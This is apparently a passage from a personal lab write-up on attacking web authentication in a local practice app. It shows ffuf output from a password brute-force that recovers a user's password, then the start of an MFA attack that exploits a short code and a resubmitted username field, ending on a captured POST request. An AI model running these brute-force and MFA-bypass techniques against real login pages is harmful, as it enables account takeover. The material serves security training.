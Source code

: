 ```python
 :: Header           : Connection: close
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Host: localhost
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Sec-Fetch-Site: same-origin
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1814
________________________________________________

letmein                 [Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 76ms]
:: Progress: [10000/10000] :: Job [1/1] :: 692 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
                                                                                                                              
┌──(cyber㉿kali)-[~]
└─$ 

```

##   ==Attacking MFA==

Multi Factor Authentication
Access the Lab no: 2
## [Labs](http://localhost/index.php) / Authentication 0x02

Target account: jeremy

Your credentials: jessamy:pasta

## Your code

910005

The MFA code looks very short we can brute force this and we are submitting the username second time while entering the MFA code 

Capture the POST request using burp suite
```python
POST /labs/a0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://localhost
Connection: close
Referer: http://localhost/labs/a0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```